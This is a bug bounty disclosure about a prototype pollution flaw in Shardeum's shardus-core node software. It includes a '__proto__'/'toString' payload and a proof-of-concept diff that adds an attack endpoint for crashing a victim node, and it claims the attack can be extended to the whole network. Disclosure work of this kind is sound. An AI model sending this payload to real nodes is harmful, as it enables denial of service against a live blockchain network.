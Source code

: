 
# Killing nodes by polluting tx timestamp cache object prototype

Submitted on Fri Aug 09 2024 19:29:47 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34353

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description

## Description
In the @shardus/core source code repo, node store a cache of transaction timestamp. Other node will ask the cache, if it's a miss the node will create new transaction timestamp cache object derived from payload of the request.
This mean that malicious party can launch a modified node, send the polluted payload to victim node via `get_tx_timestamp` cache ask endpoint. Subsequently killing the victim node.

## Vulnerability
This happen due to the cache holder node will create a transaction timestamp object if the timestamp for given transaction not found in its own cache. The problem lies within the way the cache is created.

```
this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
```
This way of referencing the cache object to assign a value is dangerous, because the referenced element come straight from the request payload. With that in mind consider the following payload
```
{
  cycleMarker: "__proto__",
  cycleCounter: "__proto__",
  txId: "toString"
}
```

This mean that the cache object will be created in the following way
```
this.txTimestampCache["__proto__"]["toString"] = signedTsReceipt
```
Essentially overwriting the prototype of the cache object, and the `toString` method of the cache object. This is problematic because `toString` is polluted to be a literal string which in turns break the code of the victim when stringify operations are done later down the stream.





        
## Proof of concept
## Proof of Concept
- Launch a network of legit nodes.
- Launch an attacker node with this patch applied to shardus/core
- Wait for the attacker node to go active

```diff

diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..5fbe9796 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+

 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,30 @@ class NestedCounters {
   }

   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk', async (req, res)=>{
+
+          const victim = req.query.victim as string
+
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+
+          const cycleCounter = "__proto__"
+
+          const txId = "toString"
+
+          const payload = {
+            cycleMarker,
+            cycleCounter,
+            txId
+          }
+
+          const data = await Context.p2p.ask(node, "get_tx_timestamp", payload, false)
+
+          res.send(data)
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')


 ```
 - Send a request to the attacker node with the victim node public key as a query parameter
 - `GET http://localhost:1337/launch-attk?victim=<publickey>`
 - observe the logs, the node exit unCleanly, essentially killing the node.

 ## Impact
 This is pretty straight forward single node attack, the script can be modified to attack the whole network to kill the whole network.

